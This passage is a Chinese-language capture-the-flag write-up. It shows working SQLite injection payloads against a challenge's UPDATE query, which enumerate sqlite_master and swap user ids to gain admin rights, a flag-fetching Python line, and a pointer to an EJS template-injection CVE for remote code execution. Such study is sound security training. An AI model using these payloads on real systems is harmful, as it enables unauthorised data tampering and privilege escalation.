 ```python!
    s.get("http://challs.bcactf.com:30477/flag?token=" + r.json()["captchaToken"]).text
)
```

### User #1

黑箱，可猜測 sql 如下:

`UPDATE users SET name={可控};`

並且每次執行完以上 query 之後會用以下 hardcode query 來取得 id=1 的內容。

`SELECT name FROM user WHERE id = 1;`

透過以下 payload 來取得 users columns

`", name=(SELECT sql FROM sqlite_master WHERE type='table') WHERE id = 1;-- `

再透過以下 payload 來取得隱藏 table

`", name=(SELECT name FROM sqlite_master WHERE type = "table" LIMIT 1 OFFSET 1) WHERE id = 1;-- `

到這邊可以知道兩個 tables 的結構

```sql!
CREATE TABLE roles_ebd54b04617baf5b (id INTEGER, admin INTEGER, FOREIGN KEY(id) REFERENCES users(id) ON UPDATE CASCADE)
CREATE TABLE users (id INTEGER PRIMARY KEY, name TEXT NOT NULL)
```

`roles_ebd54b04617baf5b` 的 id 會根據 users 的 id 變動，又因為每次都會將 id=1 的 users name 印出來。

到目前大概可以猜測我們的目標是將 id=1 的 roles_ebd54b04617baf5b 中的 admin 變成 1。

有幾種想法:
- 直接跨 tables 修改 roles_ebd54b04617baf5b 的 admin column
- 修改 users id=0 為 1

想法一在 sqlite 是不可行的，有查到 [UPDATE-FROM](https://sqlite.org/lang_update.html) 語法但只可以取其他 tables 的值，不可以修改。

note: 在其他 dbms 或許可以在一個 UPDATE statement 中修改多個 tables 的內容。ex. MYSQL

看來只剩下想法二了，但是若考慮以下的寫法交換兩個 id 的話會報錯 `UNIQUE constraint failed`。

`UPDATE users SET id=(case when id=1 then 0 else 1 end) WHERE id=0 OR id=1;-- `

因為它會按照順序走訪，從 0 開始他會發現同時出現了兩個 id=1 就會出問題。

在這裡卡了一陣子，之後想到如果我們先將 id=0改為 3，這樣就能讓 id=1 先運作把位置讓走，之後換 id=3 的時候就可以坐在 id=0 了

最終 payload:
```sql!
UPDATE users SET id=3 WHERE id=0;
UPDATE users SET id=(case when id=1 then 0 else 1 end) WHERE id=3 OR id=1;-- 
```

### Dock Finder

這題我是接手 ball45 的，他已經能成功執行 JavaScript了，但不知道為何不能 RCE，差在把 flag 拿回來。
主要是用這 [CVE-2022-29078](https://eslam.io/posts/ejs-server-side-template-injection-rce/)
